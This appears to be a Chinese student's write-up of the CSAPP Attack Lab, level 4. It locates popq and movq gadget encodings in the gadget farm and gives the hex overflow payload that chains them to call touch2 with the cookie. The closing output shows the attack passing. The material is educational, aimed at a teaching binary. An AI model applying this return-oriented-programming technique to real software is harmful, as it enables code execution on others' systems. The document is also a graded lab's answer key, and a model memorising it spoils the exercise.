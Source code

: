 需要的信息

搜索popq %rax-->58

找到这里的地址为4019ab

```asm
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret   
```

搜索movq %rax %rdi-->48 89 c7

地址4019c5

```asm
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3   
```

**注意这里，ret与我们选中的编码之间还有一个90,这个必须是上面表中没有出现过的编码，这样才能识别为空**

```
cookie：0x59b997fa
0x4017ec touch2.c函数地址
```

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 //这一行是借助getbuf的返回地址直接返回到第一个gadget
fa 97 b9 59 00 00 00 00 //这一行是标志cookie，这样在第一个gadget执行pop的时候%rax就会拿到cookie
c5 19 40 00 00 00 00 00 //这一行是第二个gadget，第一个gadget ret后将栈指针再向上读取8字节
ec 17 40 00 00 00 00 00 //这一行是返回touch2函数

```

攻击成功！！

```
lyjy@Lenovo:~/CSAPP/attacklab$ ./hex2raw<level4.txt>level4
lyjy@Lenovo:~/CSAPP/attacklab$ ./rtarget -q -i level4
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```
